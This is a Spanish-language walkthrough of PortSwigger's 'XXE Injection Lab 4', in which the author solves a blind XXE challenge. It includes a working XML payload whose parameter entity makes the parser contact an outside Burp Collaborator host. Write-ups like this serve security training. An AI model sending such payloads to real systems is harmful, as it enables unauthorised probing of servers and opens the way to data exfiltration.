 ```yaml
---
title: "XXE Injection Lab 4"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Blind XXE with out-of-band interaction via XML parameter entities
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Blind XXE with out-of-band interaction via XML parameter entities

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función de `Check stock` que analiza la entrada XML, pero `no muestra valores inesperados` y `bloquea` las `solicitudes` que contienen `entidades externas regulares`. Para resolver el laboratorio, debemos utilizar una `entidad` de `parámetro` para que el `analizador XML` realice una `búsqueda DNS` y una `solicitud HTTP` a `Burp Collaborator`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-4/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-4/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-4/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

La da un `error` al `enviar` la `petición`, esto se debe a que `no` podemos `llamar` a una `entidad` desde los campos existentes, en este caso la `entidad` declarada es `xxe`

![](/assets/img/XXE-Injection-Lab-4/image_4.png)

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este dominio obtenido lo vamos a usar para construir este `payload`, el `%` sirve para `llamar` a la `entidad` desde el `DTD` creado

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`

![](/assets/img/XXE-Injection-Lab-4/image_5.png)

